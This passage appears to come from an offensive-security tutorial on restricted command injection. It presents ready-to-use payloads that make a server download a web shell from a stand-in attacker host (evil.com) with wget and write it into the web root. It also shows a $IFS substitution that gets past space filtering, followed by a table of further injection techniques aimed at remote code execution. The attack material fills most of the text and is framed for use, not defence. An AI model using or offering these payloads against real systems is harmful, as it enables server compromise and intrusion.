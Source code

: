 ### Payload:

```bash
http://evil.com/ -O /var/www/html/webshell.php
```

* `-O` = output file
* You control the input URL and the output location
* So the server fetches a web shell and saves it to the web root

✅ Now visit: `http://target/webshell.php`

**You just turned a file fetcher into a weaponized uploader.**

---

### 🔓 3. Bypassing Space Filtering (🔥 Pro Technique)

Some apps block **spaces**, which makes it hard to:

* Add new arguments
* Write flexible payloads

### Bypass with `$IFS`:

On Linux, `$IFS` is the **Internal Field Separator** — usually a space.

✅ Payload:

```bash
wget$IFShttp://evil.com/x -O$IFS/tmp/pwned.php
```

🚀 Result: Equivalent to:

```bash
wget http://evil.com/x -O /tmp/pwned.php
```

---

## 🎯 Summary Table: Restricted Command Injection Techniques

| Technique                     | How It Works                             |
| ----------------------------- | ---------------------------------------- |
| `>` output redirection        | Write attacker-controlled data to a file |
| `<` input redirection         | Feed file content into command           |
| Using `-O` with `wget`        | Save a malicious file on the server      |
| Using `$IFS` instead of space | Bypass space filtering on UNIX systems   |
| Quoting user input            | Prevent shell parsing errors             |
| Writing to executable folder  | Allows RCE when visited via browser      |

---
